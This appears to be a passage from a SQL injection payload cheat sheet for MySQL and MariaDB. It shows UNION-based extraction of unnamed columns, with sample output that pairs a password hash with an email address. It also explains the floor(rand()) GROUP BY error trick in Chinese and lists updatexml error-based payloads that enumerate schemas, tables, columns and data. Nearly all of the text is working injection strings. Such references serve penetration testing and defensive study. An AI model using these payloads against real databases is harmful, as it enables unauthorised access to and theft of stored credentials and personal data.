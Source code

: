 ### Extract data without columns name 

Extracting data from the 4th column without knowing its name.

```sql
select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
```

Injection example inside the query `select author_id,title from posts where author_id=[INJECT_HERE]`

```sql
MariaDB [dummydb]> select author_id,title from posts where author_id=-1 union select 1,(select concat(`3`,0x3a,`4`) from (select 1,2,3,4,5,6 union select * from users)a limit 1,1);
+-----------+-----------------------------------------------------------------+
| author_id | title                                                           |
+-----------+-----------------------------------------------------------------+
|         1 | a45d4e080fc185dfa223aea3d0c371b6cc180a37:veronica80@example.org |
+-----------+-----------------------------------------------------------------+
```





## MYSQL Error Based

### MYSQL Error Based - Basic

```
    group by 在分组时会执行取记录，插记录到虚表这两个操作，当key存在时，会将count(*)直接更新。floor(rand(0)*2) 这个表达式的结果为011011。取记录时会执行此表达式一次，当key不存在时会重新计算此表达式。
    在插入第一条记录时，表达式已经执行了两次一次是在取记录，第二次是在插第一条记录时，当写入第二条记录时会再次执行一次表达式，此时表达式值为1（第三次），存在此key，所以只更新。写入第三条记录时，表达式值为0，key不存在，所以插入时重新计算表达式，结果为1，然后1这个主键已存在于虚拟表中，而新计算的值也为1（主键值必须唯一），所以产生了主键冲突的错误。
```

Works with `MySQL >= 4.1`

```sql
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'
```

### MYSQL Error Based - UpdateXML function

```sql
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```

